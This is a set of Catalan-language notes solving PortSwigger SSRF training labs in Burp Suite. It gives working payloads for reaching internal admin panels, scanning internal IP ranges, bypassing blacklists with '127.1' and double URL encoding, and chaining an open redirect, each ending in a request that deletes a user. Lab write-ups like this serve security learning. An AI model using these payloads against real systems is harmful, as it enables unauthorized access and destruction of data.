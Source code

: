 # Server-side request forgery (SSRF) LABS: https://portswigger.net/web-security/ssrf

### Tots els SSRF es faran dintre la pestanya de 'View Details>Check Stock'

## **Lab 1**: Basic SSRF against the local server

    - Tenim: stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
    Seleccionem tot el paràmetre de 'stockApi' i li fem un URL Decoder: Ctrl+Shift+U.
        RESULTAT: stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
    - FEM: stockApi=http://localhost/admin&storeId=1
        Per veure el resultat, anem a l'apartat de RENDER en el Burpsuite:
            Tenim: Users (carlos i wiener) amb una opció de 'delete' al costat.
            Per eliminar aquest usuari, que és el que ens demanen, tornem a la part de RAW i busquem per 'carlos'.
            TROBEM: <a href="/admin/delete?username=carlos">Delete</a>
    
    - RESULTAT: stockApi=http://localhost/admin/delete?username=carlos&storeId=1

## **Lab 2**: Basic SSRF against another back-end system

    - TENIM: stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
    - URL DECODE: stockApi=http://192.168.0.1:8080/product/stock/check?productId=2&storeId=1
        - Deixem preparat: stockApi=http://192.168.0.1:8080/admin&storeId=1
        - I ho enviem a l'Intruder.
        - Fem un Clear§.
        - Seleccionem l'últim 1 de: 192.168.0.1
        - Fem un Add§.
        - Pestanya de Payloads.
        - Payload Type: Numbers
        - From: 1 / To: 254 / Step: 1
        - Start Attack
        - Veiem que tots dona un status code 400. Menys al número 70. Dona un 200.
    - FEM: stockApi=http://192.168.0.70:8080/admin&storeId=1
    - RESULTAT: stockApi=http://192.168.0.70:8080/admin/delete?username=carlos&storeId=1

## **Lab 3**: SSRF with blacklist-based input filter

    - TENIM : stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
    - URL DECODE: stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
        - PROVEM: stockApi=http://127.1/admin
        - URL DECODE de 'a' = stockApi=http://127.1/%61dmin
        - URL DECODE de '%' = stockApi=http://127.1/%2561dmin
    - RESULTAT: stockApi=http://127.1/%2561dmin/delete?username=carlos

## **Lab 4**: SSRF with filter bypass via open redirection vulnerability

    - TENIM: stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
    - URL DECODE: stockApi=/product/stock/check?productId=2&storeId=1
    - Veiem que no hi ha manera, necessitem anar per una redirecció. A la pàgina hi ha un 'Next Product'. Capturem el paquet
    - TENIM: GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/1.1
        - PROVEM A: GET /product/nextProduct?currentProductId=2&path=https:/google.es HTTP/1.1 -> Ens esta fent la redirecció cap a Google.
    - FEM: stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin
    - RESULTAT: stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin/delete?username=carlos

## **Lab 5**: Blind SSRF with out-of-band detection


## **Lab 6**: SSRF with whitelist-based input filter


## **Lab 7**: Blind SSRF with Shellshock exploitation


